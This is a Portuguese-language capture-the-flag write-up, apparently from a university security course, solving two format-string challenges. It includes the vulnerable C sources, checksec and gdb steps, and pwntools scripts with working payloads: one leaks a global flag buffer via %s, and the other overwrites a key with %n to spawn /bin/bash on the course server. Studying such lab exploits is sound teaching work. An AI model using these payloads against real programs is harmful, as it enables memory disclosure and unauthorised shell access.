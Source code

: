 
## CTF Part 1

- para sabermos com o que estamos a lidar nos demos uma vista de olhos no main.c
```c

#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}

```
- podemos ver que o scanf esta desprotegido não é efetuada sanatização de um buffer que é utilizado fornecido pelo utilizador(o que nos deixa aplicar a vulnerabilidade do format string), que o scanf vai imprimir na shell 32 bytes e que o buffer com a flag é uma variavel global , quando nos corremos o codigo checksec temos este output

```shell
[*] '/home/seed/Downloads/Semana7-Desafio1/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
- Com isto nos sabemos que o endereçamento utilizado é little edian
- para obter o endereço do buufer com a flag nos usamos alguns comando do edb para fazermos isso inicialmente nos usamos o exploit template que nos foi fornecido  
```c
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"oi")
p.interactive()
```
- depois de executarmos este codigo tivemos este output

![Alt text](Images/image-71.png)

- com este resultado nos conseguimos saber o pid para executarmos num outro terminal o programa com o edb com este codigo que vai ligar o edb ao processo que depois nos vai permitir saber o address do buffer 
```shell
gdb attach 4287

```
- este comando vai correr o gdb neste processo e usando este comando conseguimos o address do buffer

```gdb
p &flag
```
- dando este output

![Alt text](Images/image74.png)

- Nos executamos o codigo multiplas vezes e verificamos que o endereço era estatico com isso nos ja temos informações necessárias para o ataque 
- agora nos so temos de descobrir o offset alteramos uma linha de codigo para saber onde é que nos começavamos a encontrar os elementos do printf
```py
p.sendline(b"AAAA%.8x%.8x")
```
- tivemos este output

![Alt text](Images/image-72.png)

- com este output nos sabemos que não ha offset ou seja para concluir este ctf nos so precisamos de meter o address do buffer e aceder ao buffer utilizando %s que acede a buffers
- o address que recebemos pelo edb é o 0x804c060 mas ele tem que ter um zero a esquerda devido a arquitetura logo o address é 0x0804c060 colocando o em little edian é 0x60 , 0xc0 , 0x04 , 0x08 seguindo o adress do %s o nosso codigo esta feito vai ser alguma coisa com isto
```py
p.sendline(b"\x60\xc0\x04\x08%s")
```
- alterando o Local para False ficamos com este codigo 
```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()

```
- dando o seguinte resultado 

![Alt text](Images/image-73.png)

## CTF part 2

```c
#include <stdio.h>
#include <stdlib.h>

char pad[2] = "\x00\x00";
int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	fflush(stdout);
    }
        
    return 0;
}
```
- Este é o main contido pelo zip do desafio 2 so com isto conseguimos ver que este codigo contem a mesma vulnerabilidade que é o scanf imprime diretamente codigo do utilizador sem sanatização conseguimos ver que para conseguirmos a flag nos temos que alterar o valor a key para 0xbeef que em hexadecimal é 48879 se conseguirmos fazer isso temos acesso a shell e depois podemos dar cat flag.txt
- para ver quais as proteções do programa vamos correr o checksec que da este output
![Alt text](Images/image8-3.png)

- com isto sabemos que estamos outravez diante um addresing com little edian de 32 bits
- proseguimos a encontrar o address da variavel global key utilizando o gdb tal como no exercicio anterior

![Alt text](Images/image8-1.png)

- executamos o gdb multiplas vezes e reparamos que o address não se altera e que tem o address com 7 characters porque o primeiro é zero ficando com o address 0x0804b324 como o address esta em little edian o address que vamos utilizar é 0x24 0xb3 0x04 0x08
 - nos mudamos o exploit mudado anterior nestas duas linhas , nos usamos os primeiros 4 characteres para dar um buffer de 32 bits para conseguirmos usar um %.{offset}x em que o offseet é o valor desejado em decimal que é 48879
o offset vai ser 48879 - 4(buffer dos AAAA) - 4 (o Address em si) = 48871 pois o %n vai contar o numero de bytes imprimidos e guardalos no endereço a que esta a apotar neste caso \x24\xb3\x04\x08%
 ```
    p = remote("ctf-fsi.fe.up.pt", 4005)
    p.sendline(b"AAAA\x24\xb3\x04\x08%.48871x%n")
 ```
 - executando o exploit que nos da acesso a shell podendo depois dar cat flag.txt para termos a flag

![Alt text](Images/image8-2.png)